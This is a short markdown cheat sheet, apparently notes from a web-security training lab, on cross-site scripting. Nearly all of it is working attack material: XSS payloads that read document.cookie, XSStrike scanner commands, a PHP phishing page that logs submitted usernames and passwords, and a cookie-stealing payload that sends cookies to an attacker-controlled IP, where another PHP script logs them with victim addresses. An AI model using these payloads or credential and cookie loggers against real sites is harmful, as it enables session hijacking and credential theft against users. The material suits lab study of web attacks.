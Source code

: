 # Stored XSS
# Reflected XSS

```js
<script>alert(document.cookie)</script>

```

# DOM XSS

```js

<img src="" onerror=alert(document.cookie)>

```

# XSS Discovery


```bash

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python3 xsstrike.py -u "http://94.237.49.178:45588/?fullname=admin&username=admin&password=1234567&email=fran%40gamil.com"

```

# Phishing

```php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

```


```bash

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started


```
" onerror="window.location.href='https://10.10.14.110:80/index.php;

# Skills Assessment

```bash
 mkdir /tmp/tmpserver

    cd /tmp/tmpserver

    nano myscript.js > new Image().src='http://10.10.16.51:3333/index.php?c='+document.cookie;
    
    nano index.php

```

```php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Server IP and Port: IP:3333 | Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>


```

```bash

sudo php -S 0.0.0.0:3333

```

```XSS

"><script src=http://10.10.16.51:3333/myscript.js></script>

```


"><script src=http://10.10.16.51:3333/myscript.js></script>